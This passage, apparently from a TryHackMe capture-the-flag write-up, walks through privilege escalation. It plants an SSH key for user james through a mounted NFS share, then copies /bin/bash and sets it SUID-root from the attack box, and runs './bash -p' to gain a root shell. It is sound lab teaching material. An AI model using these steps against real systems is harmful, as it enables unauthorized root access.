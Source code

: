 # Privilege Escalation 

I know that james is another user on the machine. So, I did the same steps with james as a did with paradox, setting up a ssh key on my attack box with ```ssh-keygen -f james```, adding it to authorized keys and authenticating with the private key. However, this time I used my mounted NFS to upload the james private key and update to authorized keys. Therefore, authorized keys was located at ```/mnt/.ssh/authorized_keys``` on my local machine and the same goes for the private keys found at ```/mnt/.ssh/id_rsa```. 

After those steps were complete, I was able to ssh into the box from my attack machine. 
```
ssh -i james james@10.10.252.23
```
With my mounted connection to the victim, I copied the version ```/bin/bash``` on the victim/target machine to the current working directory on the victim/target machine. This gives me the ability to edit the permissions of bash. 
```
cp /bin/bash .
```
On my attack machine, I took ownership of the copied bash above as root and set privileges with the SUID bit. 
```
/home/ajread/TryHackMe/practice/mnt# chown root:root bash
/home/ajread/TryHackMe/practice/mnt# chmod +s bash
```
Now, the permissions for the copied bash within the home directory of james allow him to execute it as root. With that done, user james is able to execute ```[james@ip-10-10-121-43 ~]$ ./bash -p``` and become root! 
```
bash-4.4# wc -c root.flag 
38 root.flag
```